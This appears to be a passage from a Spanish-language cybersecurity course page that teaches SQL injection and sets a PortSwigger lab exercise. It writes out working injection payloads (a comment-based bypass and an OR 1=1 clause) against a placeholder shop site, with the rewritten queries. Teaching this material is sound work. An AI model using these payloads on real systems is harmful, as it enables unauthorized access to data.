 https://insecure-website.com/products?category=Gifts](https://insecure-website.com/products?category=Gifts)

Y la petición se transforma en la siguiente consulta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
AND released = 1
```

El atacante de una web insegura puede lanzar esta petición [https://insecure-website.com/products?category=Gifts'--](https://insecure-website.com/products?category=Gifts) que en el backend  se convierte en la siguiente consulta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'--'
AND released = 1
```

Los dos guiones (--) se consideran un comentario, lo que acaba de ocurrir es que la base de datos va a ignorar `AND released = 1`  provocando que se puedan obtener todos los productos de la Categoría Gifts sin tener en cuenta la bandera `released`

Lo que convierte la consulta anterior en esta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
```

Si la página atacada funciona de esta forma, es muy sencillo hacer una consulta que devuelva todos los productos:

**Petición** [https://insecure-website.com/products?category=Gifts'+OR+1=1'](https://insecure-website.com/products?category=Gifts'+OR+1=1

Se convierte en 

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
OR 1=1--' AND released = 1
```

Como 1=1 es siempre cierto, se obtienen TODOS los profuctos de la página

> **Realizad todos los laboratorios de esta actividad en un único documento. **
>
> Para cada uno de ellos debéis incluir una captura de pantalla como que lo habéis logrado. Por ejemplo, el siguiente muestra que lo he resuelto
>
> ![image-20210409203241519](/Ciberseguridad-PePS/assets/img/injection/image-20210409203241519.png)
>
> **LAB 1** [Vulnerabilidad de inyección SQL en la cláusula WHERE que permite la recuperación de datos ocultos](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Subvertir la funcionalidad de la página
